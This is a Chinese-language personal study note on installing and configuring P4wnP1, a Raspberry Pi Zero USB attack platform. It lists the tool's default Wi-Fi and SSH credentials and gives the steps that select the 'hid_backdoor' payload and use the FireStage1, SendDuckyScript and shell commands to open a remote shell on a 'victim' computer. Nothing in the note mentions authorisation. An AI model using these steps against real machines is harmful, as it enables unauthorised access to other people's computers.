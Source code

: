 ```yaml
---
title: 【笔记】P4wnP1 学习笔记
categories:
  - 树莓派
date: 2020-01-15 22:44:47
---
```


## 前言

P4wnP1 is a highly customizable USB attack platform, based on a low cost Raspberry Pi Zero or Raspberry Pi Zero W (required for HID backdoor).（[官网](https://github.com/mame82/P4wnP1)）

<!-- more -->

## ~旧安装方法~

### 准备工作

- 已配置`wifi`和`ssh`的`raspbian-stretch`系统的树莓派

### 安装

#### 克隆源代码

``` sh
git clone https://github.com/mame82/P4wnP1.git
```

#### 执行安装程序

``` sh
cd P4wnP1
./install.sh
```

#### 安装完成

![01.png](/images/20200115224447/01.png)

## 新安装方法

### 准备工作

- [P4wnP1_0_1_alpha.img](https://github.com/mame82/P4wnP1/releases)

### 安装

- 直接将`P4wnP1.img`烧录在树莓派

### 启动方法

- 连接wifi

> 名称：`P4wnP1`
> 密码：`MaMe82-P4wnP1`

- 登录ssh

> ip地址：`172.24.0.1`
> 端口号：`22`
> 用户名：`pi`
> 密码：`raspberry`

### 安装完成

![02.png](/images/20200115224447/02.png)

## 配置

- 重启树莓派

### 修改 setup.cfg 文件

``` sh
nano P4wnP1/setup.cfg
```

### 编辑 setup.cfg 文件

``` sh
#PLAYLOAD=network_only.txt
PLAYLOAD=hid_backdoor.txt
```

## 启动

- 重启树莓派

### 查看帮助

``` sh
P4wnP1 shell > help
```

### 启动后门

- 被害者电脑会有`PowerShell`窗口闪过

``` sh
P4wnP1 shell > FireStage1
```

### 发送脚本

``` sh
P4wnP1 shell > SendDuckyScript
```

### 获取命令提示符

``` sh
P4wnP1 shell > shell
```

## 完成

## 参考文献

[南墙的博客](http://imzifeng.cn/2018/07/badusb-on-raspberry-pi-zero-w/)
[YouTuBe——Seytonic](https://www.youtube.com/watch?v=Pft7voW5ui8)
[沫延说的博客](https://blog.topstalk.com/raspberry-pi-zero-w-安装-p4wnp1-完整教程/)

